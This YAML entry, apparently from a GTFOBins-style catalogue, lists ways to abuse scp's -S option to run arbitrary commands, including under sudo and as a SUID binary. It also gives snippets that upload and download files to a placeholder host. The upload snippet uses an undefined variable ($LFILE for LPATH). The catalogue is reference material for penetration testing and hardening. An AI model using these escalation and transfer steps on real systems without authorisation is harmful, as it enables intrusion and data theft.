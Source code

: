 ```yaml
---
functions:
  exec-non-interactive:
    - code: |
        TF=$(mktemp)
        CMD="touch /tmp/unrestricted"
        echo "$CMD" > "$TF"
        chmod +x "$TF"
        scp -S $TF x y:
  sudo-enabled:
    - code: |
        TF=$(mktemp)
        CMD="touch /tmp/unrestricted"
        echo "$CMD" > "$TF"
        chmod +x "$TF"
        sudo scp -S $TF x y:
  suid-limited:
    - code: |
        TF=$(mktemp)
        CMD="touch /tmp/unrestricted"
        echo "$CMD" > "$TF"
        chmod +x "$TF"
        ./scp -S $TF a b:
  upload:
    - description: Send local file to a SSH server.
      code: |
        RPATH=user@10.0.0.1:~/where_to_save
        LPATH=file_to_send
        scp $LFILE $RPATH
  download:
    - description: Fetch a remote file from a SSH server.
      code: |
        RPATH=user@10.0.0.1:~/file_to_get
        LFILE=where_to_save
        scp $RPATH $LFILE
---
```


